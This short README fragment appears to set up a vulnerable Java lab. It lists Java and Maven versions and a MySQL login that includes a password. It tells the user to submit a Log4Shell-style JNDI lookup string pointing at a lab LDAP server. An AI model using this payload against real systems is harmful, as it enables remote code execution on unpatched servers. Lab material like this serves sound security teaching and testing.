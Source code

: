 Use `${jndi:ldap://snoopy-ldap-server:1389/a}` 

Dependencies : 

openjdk 17.0.10 2024-01-16
OpenJDK Runtime Environment Temurin-17.0.10+7 (build 17.0.10+7)
OpenJDK 64-Bit Server VM Temurin-17.0.10+7 (build 17.0.10+7, mixed mode, sharing)

Maven 3.9.6


connect from shell via mysql -h 127.0.0.1 -P 3306 -u root -p biscuits